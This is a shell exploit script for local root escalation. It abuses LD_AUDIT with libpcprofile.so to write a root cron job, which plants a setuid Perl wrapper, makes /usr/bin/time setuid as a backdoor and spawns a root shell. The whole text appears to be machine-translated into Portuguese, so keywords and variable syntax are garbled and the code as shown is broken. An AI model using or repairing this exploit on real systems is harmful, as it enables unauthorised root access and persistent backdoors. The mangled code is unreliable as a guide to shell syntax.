 # ldaudit_pcprofile.sh
#! / Bin / sh  # A implementação limpador de: http://www.exploit-db.com/papers/15311/ # Este script usa Perl como um provedor de setuid (), mas qualquer lang vai fazer  Crontab = `date +% s` BASETMP = `mktemp` CARREGADOR = $ {} BASETMP .sh ROOTPL = "$ {} crontab .pl"  rm -f $ {} BASETMP toque $ {} CARREGADOR  PERL = `que perl`  E se [ ! -f $ {PERL}]; então  echo "[*] Este exploit requer o interpretador perl"  Saída fi  umask 0 LD_AUDIT = "libpcprofile.so" PCPROFILE_OUTPUT = "/ etc / cron.d / $ {} crontab" ping> / dev / null 2> &amp; 1 umask 22  E se [ ! -f /etc/cron.d/${CRONTAB}]; então  echo "[*] Este sistema não é vulnerável"  Saída fi  echo "* * * * * root / bin / bash $ {} LOADER"> /etc/cron.d/${CRONTAB}  echo "[*] entrada cron Criado como /etc/cron.d / $ {} crontab ..."  echo "rm -f /etc/cron.d/${CRONTAB}"> $ {} CARREGADOR echo "rm -f $ {} LOADER" >> $ {} CARREGADOR echo "echo '#! $ {} PERL'> / etc / $ {} ROOTPL" >> $ {} CARREGADOR echo "echo '\ $ &lt;= \ $> = \ $ (= \ $) = 0;' >> / Etc / $ {} ROOTPL ">> $ {} CARREGADOR echo "echo 'undef% ENV;% ENV = (\" PATH \ "=> \" / bin: / usr / bin: / usr / sbin: / sbin \ ");' >> / Etc / $ {} ROOTPL ">> $ CARREGADOR echo "echo 'sistema (\" / bin / bash -i \ ")' >> / etc / $ {} ROOTPL" >> $ {} CARREGADOR  echo "chmod 755 / etc / $ {} ROOTPL" >> $ {} CARREGADOR echo "tocar -r / usr / bin / tempo / etc / $ {} ROOTPL" >> $ {} CARREGADOR echo "chmod 4755 / usr / bin / hora" >> $ {} CARREGADOR echo "tocar -r / etc / $ {} ROOTPL / usr / bin / hora" >> $ {} CARREGADOR chmod 755 $ {} CARREGADOR  echo "[*] Esperando o cronjob para executar ..." enquanto [! -f / etc / $ {ROOTPL}]; fazer sono 5; echo ">>" `date`; feito echo "" echo "[*] Lembre-se de remover o backdoor" echo "# chmod -s / usr / bin / hora" echo "# rm -f / etc / $ {} ROOTPL" echo ""  echo "" echo "[*] Desova nosso shell de root ..." echo ""  / usr / bin / hora $ {PERL} / etc / $ {} ROOTPL

